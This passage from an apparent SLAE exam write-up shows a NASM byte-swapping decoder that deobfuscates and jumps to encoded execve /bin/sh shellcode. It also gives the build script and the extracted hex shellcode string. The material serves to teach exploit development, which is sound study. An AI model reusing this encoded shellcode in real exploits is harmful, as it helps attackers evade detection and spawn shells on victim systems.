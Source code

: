 ````nasm
        decode:
        ; switch data between esi and esi+1
        mov  al, byte [esi]
        xchg byte [esi+1], al
        mov [esi], al

        ; loop through each of the 2 bytes within the 4 byte segment and decode
        add esi, 2
        loop decode

        ; jump to decoded shellcode
        jmp short EncodedShellcode

        call_shellcode:
        call decoder
        EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x61,0x62,0x68,0x73,0x62,0x68,0x6e,0x69,0x68,0x2f,0x2f,0x2f,0x2f        	                     ,0x2f,0xe3,0x89,0x89,0x50,0x53,0xe2,0xe1,0x89,0x0b,0xb0,0x80,0xcd                                                             
````

The Assembly code is compiled by assembling with Nasm, and linking with the following bash script whilst outputting an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat compile.sh
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

The Assembly code compiled as an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./compile.sh encoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

#### Insertion Encoder in C
------

Objdump is used to extract the shellcode from the Encoder in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./encoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x15\x5e\x31\xc0\x31\xc9\xb1\x0f\x8a\x06\x86\x46\x01\x88\x06\x83\xc6\x02\xe2\xf4\xeb\x05\xe8\xe6\xff\xff\xff\xc0\x31\x68\x50\x61\x62\x68\x73\x62\x68\x6e\x69\x68\x2f\x2f\x2f\x2f\xe3\x89\x89\x50\x53\xe2\xe1\x89\x0b\xb0\x80\xcd"
```


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment4